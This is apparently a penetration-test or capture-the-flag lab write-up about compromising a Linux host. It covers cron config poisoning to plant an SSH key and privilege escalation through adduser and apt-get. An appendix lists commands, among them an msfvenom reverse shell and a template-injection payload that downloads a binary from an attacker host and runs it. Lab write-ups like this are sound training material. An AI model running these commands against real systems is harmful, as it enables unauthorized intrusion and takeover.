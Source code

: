 In summary, the source code reveals that a cron job is running for the *saint* user, which looks for a `.config.json` file in the */tmp* folder with a date prepended to it. The task that the cron job runs is fetching an external file (via FTP, SSH, or URL) and inserting it in the system.
The tester abused this functionality to create a malicious file and wait for the cron job to fetch it. The tester poisoned the file with an ssh key to access the remote host without the need for a password.
The following exploit was used in a file named "23-03-2022.config.json":
```json
{                                                                                                                            
        "URL":"http://192.168.49.99/id_rsa.pub",                                                                              
        "Output":"/home/saint/.ssh/authorized_keys"                                                                          
}  
```

With ssh access to the machine, the tester noticed that the *saint* user was able to add new users to the system. Based on one of the tickets exposed on port 5000, a few users had been removed from the system (jason, david and freddy). The tester tried re-adding them to see what privileges they had.

```bash
sudo adduser jason --gid 0
```

![Lateral movement from *saint* user to *jason* user](https://imgur.com/AQYaaKp.png)

After adding the *jason* user, the tester noticed he could run *apt-get* with elevated privileges. This was used to obtain a privileged shell in the system.
```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

![Root flag](https://imgur.com/YrgU4Vh.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -p- -oN tcp_scan.nmap -T4 192.168.88.102
nc -v 192.168.88.102 31337
curl http://192.168.88.102:5000

# Exploit
## Setup revshell and listener
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
python3 -m http.server 80
nc -lvnp 1337
## Send malicious payload to binary
nc -v 192.168.88.102 31337   
## In the connection
username> guest
password> guest
open
Title: evil_ticket
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://192.168.49.99/revshell.elf -O /tmp/revshell && chmod +x /tmp/revshell && /tmp/revshell').read()}}
## In the browser:
http://192.168.88.102:5000/ # Look for ticket named "evil_ticket"

# Initial Access
```